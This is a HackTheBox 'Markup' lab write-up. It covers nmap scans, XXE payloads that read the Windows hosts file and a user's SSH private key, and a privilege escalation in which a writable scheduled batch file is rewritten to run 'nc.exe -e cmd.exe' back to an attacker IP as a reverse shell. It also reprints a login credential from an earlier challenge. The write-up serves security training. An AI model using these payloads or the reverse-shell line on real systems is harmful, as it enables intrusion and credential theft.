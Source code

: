 ```yaml
---
title: Markup
description: Markup box from HackTheBox write up.
---
```


# Markup <a href='/assets/resources/HackTheBox/Markup-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Nmap scan

Let's start with a `nmap` scan:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p- --min-rate 1000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 19:15 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.26s latency).
Not shown: 65532 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 133.25 seconds
           Raw packets sent: 131160 (5.771MB) | Rcvd: 450 (88.644KB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p22,80,443 -sC -sV           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 19:20 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.16s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.94 seconds
```

So we have a web server in using ports 80 and 443 and then we can see that ssh is open too. We can start enumerating that webserver.

## Port 80

Since the TLS domain is `localhost` I will use the port 80 for the web server enumeration for now. The page is asking for login so tried the credentials we found in the last challenge: `Daniel:>SNDv*2wzLWf` to get access.

After some digging we can see that when an order is sent the request contains:

```xml
<?xml version = "1.0"?><order><quantity>123</quantity><item>Home Appliances</item><address>123</address></order>
```

So maybe the site is vulnerable to XEE, i wrote a little Python script to ease the payload sending process but basically sending this (remember is a Windows box according to nmap):

```xml
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///C:/windows/system32/drivers/etc/hosts'>]>
<order><quantity>123</quantity><item>&read;</item><address>123</address></order>
```

Will make the server print the `hosts` file contents cool! Since ssh is open and we logged in using a user called Daniel I tried to check if i could get a private key. Using the next payload the `daniel` user private key is now ours!

```xml
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///C:/Users/daniel/.ssh/id_rsa'>]>
<order><quantity>123</quantity><item>&read;</item><address>123</address></order>
```

## In the box

After getting the user flag in the Daniel Desktop we can start enumerating. I spent a while trying some exploits and looking around until i saw a weird file called `job.bat`:

```powershell
PS C:\Log-Management> cat .\job.bat 
@echo off                                                              
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V           
IF (%adminTest%)==(Access) goto noAdmin                                
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G") 
echo.                                                                  
echo Event Logs have been cleared!                                     
goto theEnd                                                            
:do_clear                                                              
wevtutil.exe cl %1                                                     
goto :eof                                                              
:noAdmin                                                               
echo You must run this script as an Administrator!                     
:theEnd                                                                
exit
```

It just clear the logs, but we can see something interesting if we check the file permissions:

```powershell
PS C:\Log-Management> icacls .\job.bat
.\job.bat BUILTIN\Users:(F)
          NT AUTHORITY\SYSTEM:(I)(F)
          BUILTIN\Administrators:(I)(F)
          BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
PS C:\Log-Management> whoami /GROUPS

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
MARKUP\Web Admins                      Alias            S-1-5-21-103432172-3528565615-2854469147-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

We have full permissions over the file, since this file looks like an schedule task run by the system administrator we can abuse it to get full access.

## Privilege scalation

First we have to download `netcat` in the box and after that we can just edit the `job.bat` file as:

```powershell
@echo off                                                              
C:\Log-Management\nc.exe -e cmd.exe <ATACKER_IP> 8080
```

Now we spin up a listener and wait for the reverse shell...

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [<ATACKER_IP>] from (UNKNOWN) [<MACHINE_IP>] 51493
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

The root flag is in the Administrator's Desktop.